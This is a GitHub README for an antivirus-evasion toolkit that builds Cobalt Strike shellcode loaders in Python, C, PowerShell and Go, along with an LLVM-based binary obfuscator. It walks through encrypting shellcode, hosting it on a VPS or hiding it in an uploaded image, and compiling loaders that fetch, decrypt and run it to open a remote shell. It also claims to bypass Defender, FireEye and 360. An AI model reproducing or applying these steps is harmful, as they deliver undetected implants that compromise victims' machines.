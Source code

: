 # CS-Avoid-killing
[Chinese README](https://github.com/Gality369/CS-Loader/blob/master/README_Chinese.md)

Overall, malware identification through the application's binary feature strings is still the most commonly used static analysis by antivirus software, while dynamic analysis (sandboxing, virtual machines, etc.) can be bypassed by anti-debugging, anti-sandboxing, and other techniques, so minimizing the binary features of a malicious program is still an important means of avoiding detection and killing.

CS evasion, including both Python and C versions (Tested: Python packaged version has bugs on Windows 10, not working, but works fine on Windows 7)

In addition to using a specific language to obfuscate binary features, it is also possible to implement a generic obfuscator to obfuscate arbitrary programs at the binary level. The generic obfuscator implemented in this project is an LLVM-17 based obfuscator that takes advantage of LLVM's new pass implementation plug-in feature to enable code obfuscation for multiple languages and platforms.

- V4.0: A general-purpose code obfuscator has been implemented, which can obfuscate the binary of any program with the help of LLVM, and is theoretically a general-purpose method to fight against antivirus static scanning. The Generic_obfuscator is a rewrite of obfuscator ref: https://github.com/obfuscator-llvm/obfuscator

- V3.1 Added Go version (can bypass FireEye/360/Defender).

- V3.0: Attempting to integrate more evasion techniques (planning to research process injection/file bundling to see how well they evade protection).

- V2.0: Developed an online evasion platform (Completed)

> PS: In practical use, I found that a graphical interface is not ideal for integration with other tools, while command-line interfaces are more flexible and extensible.
> 
> Regarding my online evasion platform, I don't plan to open-source it at this time because the technology is still in its early stages. If anyone is interested in trying it out, feel free to contact me.

- ~~V2.0: Develop a graphical user interface~~

- V1.7: Added PowerShell evasion (Completed)


- V1.5: Added C version of CS evasion (Completed)

- V1.0: Currently, it can bypass Defender/FireEye's static and dynamic protection. 360 hasn't been tested yet. I don't want to install the full 360 suite, but you can test it yourself.

## Dependencies

Generic Obfuscator:

- llvm-17：
```
git clone --depth 1 -b release/17.x https://github.com/llvm/llvm-project.git
mkdir build
cmake -G Ninja -DLLVM_ENABLE_PROJECTS="clang;lld" -DLLVM_TARGETS_TO_BUILD="X86;ARM;AArch64" -DCMAKE_BUILD_TYPE=Release -DLLVM_INCLUDE_TESTS=OFF -DLLVM_ENABLE_RTTI=ON -DLLVM_OBFUSCATION_LINK_INTO_TOOLS=
ON -DCMAKE_INSTALL_PREFIX=./build/ ../llvm-project/llvm
ninja -j8
ninja install
```

Python:

- Python 2
- PyInstaller
- Requests

C: VS2019 should be sufficient

PowerShell: Tested on Windows 10 (PS 5.1), lower versions haven't been tested.

Go: Go

## Installation

Other versions are portable to use, just clone the project.
`git clone https://github.com/Gality369/CS-Avoid-killing.git`

Howerver, Generic_bfuscator need additionally installation：
```
cd Generic Obfuscator
mkdir build
cd build
cmake ..
make -j `nproc`
```

## Usage
1. First, generate a C-format shellcode through CS:
`Attacks -> Packages -> Payload Generator`
Choose a listener and generate a C shellcode (essentially binary code).

2. Python version:

   > 1. Paste the generated shellcode into the shellcode variable in generator.py and provide a Key for RC4 encryption.
   > 2. Run generator.py, the generated payload will be saved in payload.txt.
   > 3. Upload payload.txt to your VPS. The loader will fetch the encrypted shellcode from the VPS and decrypt it locally for execution.
   > 4. In PyLoader.py, fill in the path to the payload on your VPS and the Key you just set.
   > 5. Package the file using `python pyinstaller.py -F -w PyLoader.py`. The executable will be in the dist folder inside the pyshellcode directory. Double-click to run and the host will go online.

3. C version:

   > 1. Input your own Key, shellcode length, and shellcode as required, then execute.
   > 2. Copy the first line's number into the Base64ShellLen field in Loader, save the generated encrypted shellcode in payload.txt, and place it on the server. If the filename or path is different, modify the path in `char request[1024] = "GET /RC4Payload32.txt HTTP/1.1\r\nHost:";` accordingly.
   > 3. In path, fill in the path to access the payload (e.g., /test/payload.txt).
   > 4. Fill in your Key and VPS IP in Loader, then compile.
   > 5. Run the compiled .exe to bring up the CS shell.

4. PowerShell version:

   > 1. Generate a PowerShell payload .ps1 in CS.
   > 2. Run Python3 PSconfusion.py payload.ps1 AVpayload.ps1.
   > 3. This version can bypass all static detections from current antivirus software. For dynamic detections, some CS modules may trigger detection when loading, and that will be explored further later.

5. Go version:

   > 1. Place a not-too-large image in the same folder.
   > 2. Paste the generated shellcode into the shellcode variable in generator.py, and execute `python generator YourRC4key ImageName`. The shellcode will be appended to the end of the image.
   > 3. Upload the image to an image hosting service (choose one that does not compress images to ensure the shellcode remains intact).
  > 4. Enter the image URL and your RC4 key into the corresponding fields in CS-Loader.go.
   > 5. Build the .exe using the command `go build -ldflags="-H windowsgui" CS-Loader.go` (you can compress it with UPX).
   > 6. Run the .exe and the CS shell will be active.

6. Generic Obfuscator Version：
   
   > 1. set `config/config.json` to enable different functions. (Please check `Generic_obfuscator/README.md` to get more information.)
   > 2. run `<your-clang-17> -fpass-plugin=<your-generic_obfuscator.so>`

## Notes

1. PyInstaller Installation Details:

   > The last version of PyInstaller that supports Python 2 is 3.6 (newer versions no longer support Python 2).
   > 
   > Website: https://github.com/pyinstaller/pyinstaller/releases
   > 
   > You also need to install pywin32: https://github.com/mhammond/pywin32

2. Package in the target environment to avoid issues with different systems. Avoid using Python 3 for this project due to poor support for ctypes in Python 3, which can cause random bugs.
   Thanks to KingSF5 for fixing the Python 3 version (greatly appreciated~).

3. C version testing:
The C version works fine under X86Debug mode. In Release mode, there are unexplained bugs, and it may not work properly on some machines. Please test according to your needs.

4. Do not select dynamic compilation, as it may cause the program to fail to run due to missing DLLs on the target machine.

5. The method of loading PowerShell scripts is not discussed here, but some experts have already documented it well. Please search for it on Baidu.

6. Before building the Go version, it is recommended to run `set GOARCH=amd64` and use a 64-bit shellcode. A 32-bit build may lead to errors related to missing functions in ntdll.dll, as reported by others:
https://stackoverflow.com/questions/58649055/failed-to-find-rtlcopymemory-procedure-in-ntdll-dll-only-when-goarch-386

7. For a detailed description of Generic Obfuscator, please refer to `Generic_obfuscator/README.md`, which provides a detailed description of the obfuscator and how to use it.